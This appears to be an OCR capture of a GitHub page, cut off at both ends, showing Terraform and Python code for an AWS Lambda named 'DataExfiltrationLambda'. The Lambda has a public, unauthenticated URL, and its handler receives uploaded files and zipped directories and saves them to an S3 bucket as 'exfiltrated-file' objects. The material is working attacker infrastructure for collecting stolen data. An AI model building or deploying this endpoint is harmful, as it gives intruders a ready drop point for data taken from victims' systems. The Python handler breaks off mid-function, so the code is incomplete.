 ```hcl
    variables = {
      BUCKET_NAME = aws_s3_bucket.exfil_bucket.bucket
    }
  }

  tags = {
    Name = "DataExfiltrationLambda"
  }
}

resource "aws_lambda_function_url" "lambda_url" {
  function_name       = aws_lambda_function.exfil_lambda.function_name
  authorization_type  = "NONE"
}

resource "aws_lambda_permission" "public_lambda_url_permission" {
  statement_id  = "AllowPublicAccess"
  action        = "lambda:InvokeFunctionUrl"
  function_name = aws_lambda_function.exfil_lambda.function_name
  principal     = "*"
  function_url_auth_type = "NONE"
}

output "lambda_function_url" {
  value = aws_lambda_function_url.lambda_url.function_url
}
```  

Lambda function code (python):
```python
import boto3
import os
import time
import zipfile
import io
import base64

s3 = boto3.client('s3')
bucket_name = os.environ['BUCKET_NAME']

def lambda_handler(event, context):
    try:
        # If the body is base64 encoded, decode it
        if event.get("isBase64Encoded", False):
            file_content = base64.b64decode(event['body'])
        else:
            file_content = event['body'].encode('utf-8')

        # Get the filename from headers (or set a default)
        filename = event['headers'].get('filename', f"exfiltrated-file-{time.strftime('%Y-%m-%d-%H-%M-%S', time.gmtime())}")

        # Check if the file is a zip (assume directory if it is a zip file)
        if filename.endswith(".zip"):
            # Treat it as a compressed directory
            handle_zip(file_content, filename)
        else:
            # It's a single file, upload directly
            upload_file_to_s3(file_content, filename)

        return {
            'statusCode': 200,
            'body': f"File {filename} stored successfully"
        }
```